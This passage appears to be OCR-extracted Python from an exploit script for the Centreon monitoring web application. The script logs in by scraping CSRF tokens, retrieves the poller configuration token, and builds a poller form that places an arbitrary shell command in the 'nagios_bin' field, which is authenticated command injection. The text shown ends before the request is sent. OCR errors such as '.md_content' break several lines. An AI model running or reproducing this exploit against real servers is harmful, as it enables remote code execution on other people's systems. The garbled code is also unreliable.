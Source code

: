     burp = {'http': 'http://localhost:8080'}

    request = requests.session()
    request.proxies = burp
    print("[+] Retrieving CSRF token to submit the login form")
    page = request.get(url+"/index.php")
   .md_content = page.text
    soup = BeautifulSoup.md_content, features="lxml")
    token = soup.findAll('input')[3].get("value")

    login_info = {
        "useralias": username,
        "password": password,
        "submitLogin": "Connect",
        "centreon_token": token
    }
    login_request = request.post(url+"/index.php", login_info)
    print("[+] Login token is : {0}".format(token))
    if "Your credentials are incorrect." not in login_request.text:
        print("[+] Logged In Sucssfully")
        print("[+] Retrieving Poller token")

        poller_configuration_page = url + "/main.get.php?p=60901"
        get_poller_token = request.get(poller_configuration_page)
        poller.md = get_poller_token.text
        poller_soup = BeautifulSoup(poller.md, features="lxml")
        poller_token = poller_soup.findAll('input')[24].get("value")
        print("[+] Poller token is : {0}".format(poller_token))

        payload_info = {
            "name": "Central",
            "ns_ip_address": "127.0.0.1",
            # this value should be 1 always
            "localhost[localhost]": "1",
            "is_default[is_default]": "0",
            "remote_id": "",
            "ssh_port": "22",
            "init_script": "centengine",
            # this value contains the payload , you can change it as you want
            "nagios_bin": f'{command}||',
            "nagiostats_bin": "/usr/sbin/centenginestats",
            "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
            "centreonbroker_cfg_path": "/etc/centreon-broker",
            "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
            "centreonbroker_logs_path": "",
            "centreonconnector_path": "/usr/lib64/centreon-connector",
            "init_script_centreontrapd": "centreontrapd",
            "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
            "ns_activate[ns_activate]": "1",
            "submitC": "Save",
            "id": "1",
            "o": "c",
            "centreon_token": poller_token,
        }
